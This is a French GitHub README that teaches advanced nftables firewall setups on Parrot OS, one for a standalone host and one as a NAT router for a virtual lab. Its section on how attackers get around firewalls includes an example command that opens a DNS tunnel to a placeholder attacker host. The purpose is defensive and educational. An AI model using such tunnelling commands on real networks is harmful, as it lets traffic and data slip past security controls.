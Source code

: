 # Objectif du projet

Ce projet montre la configuration de pare-feu avancés sous Parrot Security OS, une distribution orientée pentest + vie privée/anonymat.


Les démonstrations se concentrent sur les niveaux :

Niveau 6 — nftables (avancé, standalone)

Niveau 7 — nftables (NAT / Lab, routeur VM)

---

# Pourquoi Parrot OS ?

Distribution orientée pentest + vie privée/anonymat.

Le pare-feu ufw est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.

Intègre directement des outils privacy (Tor, Anonsurf, OnionShare).

Plus légère que Kali, adaptée aux machines modestes et à la virtualisation (VirtualBox, VMware).

# Niveaux de sécurité présentés
Niveau 6 — nftables avancé : politique drop par défaut, ouverture sélective (SSH, DNS, HTTP/HTTPS).

Niveau 7 — nftables NAT/Lab : le système devient routeur/firewall pour un LAN virtuel.

---

# Niveau 6 (standalone, machine protégée)

table inet filter {
chain input {
type filter hook input priority 0;
policy drop;

# Autoriser loopback
iif "lo" accept

# Autoriser connexions établies
ct state established,related accept

# Autoriser ping (IPv4 & IPv6)
ip protocol icmp accept
ip6 nexthdr icmpv6 accept

# Autoriser SSH + HTTP/HTTPS
tcp dport {22,80,443} accept

# Autoriser DNS
tcp dport 53 accept
udp dport 53 accept
}
}


# Niveau 7 (NAT / Lab, routeur VM)
table inet filter {
chain input {
type filter hook input priority 0;
policy drop;

iif "lo" accept
ct state established,related accept
ip protocol icmp accept
ip6 nexthdr icmpv6 accept
tcp dport {22,80,443} accept
tcp dport 53 accept
udp dport 53 accept
}

chain forward {
type filter hook forward priority 0;
policy drop;

# Autoriser le LAN interne vers Internet
iif "eth1" oif "eth0" accept
ct state established,related accept
}
}

table ip nat {
chain postrouting {
type nat hook postrouting priority 100;
oif "eth0" masquerade
}
}

---

# 📌 Explications :

Niveau 6 → protège ta machine personnelle.

Niveau 7 → transforme ta machine en pare-feu + routeur pour un réseau virtuel.

---

#  Démonstrations
Application des règles :

sudo nft -f /etc/nftables.conf

Vérification des règles actives :

sudo nft list ruleset

---

#  Limites et bonnes pratiques

Un firewall réduit la surface d’attaque mais ne protège pas de tout.

Un hacker expérimenté peut :

passer par un port ouvert (SSH, HTTPS),

exploiter une faille logicielle,

utiliser du tunneling (DNS, HTTP(S)),

contourner via IPv6 si mal configuré.

👉 Solution : combiner avec un IDS/IPS (Snort, Suricata), du monitoring (logs, SIEM), et de bonnes pratiques (MFA, patchs, segmentation réseau).

---

# Conclusion
Parrot OS est une alternative solide à Kali, plus légère et orientée vie privée.

Les niveaux 6 et 7 démontrent deux cas concrets :

🔒 Protection avancée d’une machine individuelle.

🌐 Mise en place d’un routeur/firewall complet pour un lab réseau.

Ce projet illustre comment un firewall évolue : de simple protection → à composant réseau avancé.

⚡ Technologies utilisées
Parrot OS

nftables

VirtualBox



📌 Auteur : Virginie Lechene

# ⚠️ Comment un hacker pourrait contourner


Même avec un firewall avancé (niveaux 6 et 7), il existe des techniques de contournement :

Exploiter les ports ouverts (ex : nmap -p 443 <cible> → scanner en HTTPS).

Tunneling DNS (ex : iodine → transformer DNS en canal de communication).

Exploiter des failles applicatives derrière un port autorisé.



👉 C’est pourquoi on combine firewall + IDS/IPS + monitoring.

🔹 Exemple — Tunnel DNS (contournement)


Comme le port 53 (DNS) est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

👉 Cela permet de faire passer du trafic complet dans des requêtes DNS → contournant le firewall.

🚀 Différence entre Niveau 6 et Niveau 7


🔹 Niveau 6 : Firewall personnel
Ne protège que ta machine locale.

Politique stricte : tout bloqué sauf quelques services.

Idéal pour un poste de travail ou serveur isolé.



👉 Exemple : ton PC sous Parrot OS n’accepte que le trafic web et SSH.

🔹 Niveau 7 : Firewall réseau
Ta machine devient un routeur + firewall.

Protège un lab ou réseau interne entier.

Ajoute le forwarding + NAT.

Fonctionne comme un firewall d’entreprise (pfSense, Fortinet, iptables/nftables).



👉 Exemple : une VM interne passe par ton firewall pour sortir → le firewall contrôle/log tout le trafic.




